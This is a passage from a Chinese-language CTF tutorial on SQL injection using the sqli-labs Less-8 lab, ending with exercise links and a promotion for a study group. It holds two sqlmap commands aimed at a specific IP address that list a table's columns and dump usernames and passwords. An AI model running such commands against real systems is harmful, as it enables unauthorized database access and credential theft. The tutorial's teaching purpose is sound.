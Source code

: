 4.然后我们选择user这个表，然后爆字段

>sqlmap -u 39.98.88.18:8080/sql/Less-8/index.php?id=1 -D security -T users --columns

![](img/2.7/17.png)


5.接下来我们导出字段

> sqlmap -u 39.98.88.18:8080/sql/Less-8/index.php?id=1 -D security -T users -C id,password,username --dump

![](img/2.7/18.png)

成功导出数据。

##八、课后习题

习题地址：https://t.zsxq.com/QJEEAqF

##九、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：
